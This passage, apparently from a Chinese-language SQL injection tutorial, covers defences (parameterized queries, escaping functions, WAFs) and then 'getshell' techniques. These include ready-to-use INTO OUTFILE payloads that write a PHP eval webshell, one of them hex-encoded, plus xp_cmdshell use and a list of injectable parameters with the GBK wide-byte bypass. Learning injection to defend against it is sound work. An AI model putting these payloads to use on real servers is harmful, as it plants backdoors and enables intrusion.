 _PS：尽管SQL语句大体相似，但是在不同数据库的特点，可能参数化SQL语句不同，例如在Access中参数化SQL语句是在参数直接以“?”作为参数名，在SQLServer中是参数有“@”前缀，在MySQL中是参数有“?”前缀，在Oracle中参数以“:”为前缀。_

**2.过滤函数的使用**

1.  addslashes()
2.  mysql_escape_string()
3.  mysql_real_escape_string()
4.  intval()

**3.框架及第三方过滤函数与类**

1.  JAVA hibernate框架
2.  Others

### 6.2 产品加固

*   Web应用防火墙——WAF
*   Key:云waf、安全狗、云锁、sqlchop

0x07 关联应用
=====

### 7.1 Getshell

1.  注入，查数据，找管理员密码，进后台，找上传，看返回，getshell
2.  PHP MYSQL 类，大权限，知路径，传文件，回shell(上传&命令执行)，OS-SHELL。
3.  MSSQL大权限，知路径，传文件，回shell。结合xp_cmdshell 执行系统命令。
4.  Phpmyadmin getshell （编码）
    1.  `select '<?eval($_POST[cmd]);?>' into outfile 'd:/wwwroot/1.php';`
5.  Union select getshell
    1.  `and 1=2 union select 0x3c3f70687020a6576616c28245f504f53545b615d293ba3f3e into outfile '/alidata/www/cms/ttbdxt/conf.php'--`

### 7.2 关联功能点

| 序号 | 功能点 | 参数 |
| --- | --- | --- |
| 1 | 登录 | Username password |
| 2 | Header | Cookie Referer x-forward remote-ip |
| 3 | 查询展示 , 数据写入（表单） , 数据更新 | id u category price str value |
| 4 | 数据搜素 | Key |
| 5 | 伪静态 | （同3），加* |
| 6 | Mysql不安全配置 ,`Set character_set_client=gbk` | %df%27 |
| 7 | 传参（横向数据流向、纵向入库流向） | Parameter （同3） |
| 8 | 订单类多级交互、重新编辑 , 配送地址、资料编辑 | 二次注入 |
| 9 | APP仍调用WEB API | 同3 |
| 10 | 编码urldecode base64 | Urldecode() rawurldecode() |
